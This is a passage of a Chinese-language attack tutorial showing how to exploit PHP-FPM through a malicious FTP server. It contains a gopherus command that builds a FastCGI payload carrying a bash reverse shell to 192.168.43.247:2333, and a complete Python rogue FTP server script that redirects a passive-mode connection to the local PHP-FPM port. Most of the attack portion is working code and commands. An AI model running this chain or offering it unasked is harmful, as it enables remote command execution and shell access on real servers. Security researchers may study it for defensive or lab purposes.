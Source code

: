 经测试目标主机的 9000 端口上存在 PHP-FPM，那我们便可以利用与刚才相似的原理，通过搭建恶意的 ftp 服务器来攻击 PHP-FPM。

首先还是使用 gopherus 生成 payload：

```bash
python gopherus.py --exploit fastcgi
/var/www/html/index.php  # 这里输入的是目标主机上一个已知存在的 php 文件
bash -c "bash -i >& /dev/tcp/192.168.43.247/2333 0>&1"  # 这里输入的是要执行的命令
```

[![](assets/1698897074-24dd0b4bc43231ead75054833d890ca7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210512134743-91ebb1a0-b2e5-1.png)

得到的 payload 只截取 `_` 后面的数据部分。

然后再攻击机上执行以下 python 脚本搭建一个恶意的 ftp 服务器：

```bash
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
s.bind(('0.0.0.0', 23))
s.listen(1)
conn, addr = s.accept()
conn.send(b'220 welcome\n')
#Service ready for new user.
#Client send anonymous username
#USER anonymous
conn.send(b'331 Please specify the password.\n')
#User name okay, need password.
#Client send anonymous password.
#PASS anonymous
conn.send(b'230 Login successful.\n')
#User logged in, proceed. Logged out if appropriate.
#TYPE I
conn.send(b'200 Switching to Binary mode.\n')
#Size /
conn.send(b'550 Could not get the file size.\n')
#EPSV (1)
conn.send(b'150 ok\n')
#PASV
conn.send(b'227 Entering Extended Passive Mode (127,0,0,1,0,9001)\n') #STOR / (2)
conn.send(b'150 Permission denied.\n')
#QUIT
conn.send(b'221 Goodbye.\n')
conn.close()
```